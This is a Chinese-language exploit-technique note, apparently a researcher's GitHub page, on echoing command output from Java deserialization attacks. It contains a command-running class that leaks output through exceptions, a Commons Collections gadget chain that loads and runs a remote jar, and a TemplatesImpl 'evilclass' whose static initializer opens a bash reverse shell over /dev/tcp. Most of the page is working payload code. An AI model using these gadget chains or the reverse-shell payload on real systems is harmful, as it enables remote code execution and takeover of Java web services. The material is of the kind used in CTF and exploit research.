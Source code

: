 # java回显

>一般web服务是想办法获得response对象，可以参考[2021RCTF ezshell](https://github.com/Firebasky/ctf-Challenge/tree/main/RCTF-2021-EZshell)


### URLClassLoader抛出异常

```java
package exploit.firebasky;

import java.io.BufferedInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;

public class ErrorBaseExec
{
    public ErrorBaseExec(String cmd) throws Exception{
        do_exec(cmd);
    }

    public static byte[] readBytes(InputStream in)
            throws IOException
    {
        BufferedInputStream bufin = new BufferedInputStream(in);
        int buffSize = 1024;
        ByteArrayOutputStream out = new ByteArrayOutputStream(buffSize);
        byte[] temp = new byte[buffSize];
        int size = 0;
        while ((size = bufin.read(temp)) != -1) {
            out.write(temp, 0, size);
        }
        bufin.close();

        byte[] content = out.toByteArray();

        return content;
    }

    public static void do_exec(String cmd)
            throws Exception
    {
        Process p = Runtime.getRuntime().exec(cmd);
        byte[] stderr = readBytes(p.getErrorStream());
        byte[] stdout = readBytes(p.getInputStream());
        int exitValue = p.waitFor();
        if (exitValue == 0) {
            throw new Exception("-----------------\r\n" + new String(stdout) + "-----------------\r\n");
        }
        throw new Exception("-----------------\r\n" + new String(stderr) + "-----------------\r\n");
    }

    public static void main(String[] args)
            throws Exception
    {
        do_exec(args[0]);
    }
}
```
编译成jar之后可以封装到cc利用链组件中
```java
public static Transformer[] EchoCC() throws Exception  {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(URLClassLoader.class),
            new InvokerTransformer("getConstructor",
                new Class[]{Class[].class},
                new Object[]{new Class[]{URL[].class}}),
            new InvokerTransformer("newInstance",
                new Class[]{Object[].class},
                new Object[]{new Object[]{new URL[]{new URL("http://127.0.0.1:8099/ErrorBaseExec.jar")}}}),
            new InvokerTransformer("loadClass",
                new Class[]{String.class},
                new Object[]{"exploit.firebasky.ErrorBaseExec"}),
            new InvokerTransformer("getConstructor",
                new Class[]{Class[].class},
                new Object[]{new Class[]{String.class}}),
            new InvokerTransformer("newInstance",
                new Class[]{Object[].class},
                new Object[]{new String[]{"ipconfig"}})
        };
        return transformers;
    }
```
### defineClass
其实就是通过ClassLoader去执行(反射)我们自定义类的字节码。

```java
public static String FiletoBytes(String filename) throws Exception{
        String buf = null;
        File file = new File(filename);
        FileInputStream fis = null;
        try {
            fis = new FileInputStream(file);
            int size = fis.available();
            byte[] bytes = new byte[size];
            fis.read(bytes);
            buf = Arrays.toString(bytes);
            fis.close();
            return buf;
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
        return buf;
    }
    
@Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
        if (name == myClassName) {
            System.out.println("加载" + name + "类");
            return defineClass(myClassName, bs, 0, bs.length);
        }
        return super.findClass(name);
    }    
```

### 中间件回显
由于没有是研究tomcat等容器的回显。能力有限。


>中间件而言多数重写了thread类，在thread中保存了req和resp，可以通过获取当前线程，在resp中写入回显结果



参考：https://l3yx.github.io/2020/03/31/Java-Web%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%9B%9E%E6%98%BE%E6%80%BB%E7%BB%93/

直接用项目的代码。

在利用tempimpl创建类的时候可以使用如下代码
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;

public class evilclass extends AbstractTranslet  {
    static {
        try{
            Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/ip/port;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        }catch (IOException e){
            try{
                Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
            }catch (IOException ee){
            }
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```



>参考：
>
>[Java 反序列化回显的多种姿势](https://www.joyk.com/dig/detail/1624894461629758)
>
>[Java Web代码执行漏洞回显总结](https://l3yx.github.io/2020/03/31/Java-Web%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%9B%9E%E6%98%BE%E6%80%BB%E7%BB%93/)
>
>[通杀漏洞利用回显方法-linux平台](https://www.00theway.org/2020/01/17/java-god-s-eye/)
>
>[linux下java反序列化通杀回显方法的低配版实现](https://xz.aliyun.com/t/7307)
> 
>[Tomcat中一种半通用回显方法](https://xz.aliyun.com/t/7348)     
>
>[Java反射-修改字段值, 反射修改static final修饰的字段](https://www.cnblogs.com/noKing/p/9038234.html)
>
>[基于全局储存的新思路 | Tomcat的一种通用回显方法研究](https://mp.weixin.qq.com/s?__biz=MzIwMDk1MjMyMg==&mid=2247484799&idx=1&sn=42e7807d6ea0d8917b45e8aa2e4dba44)
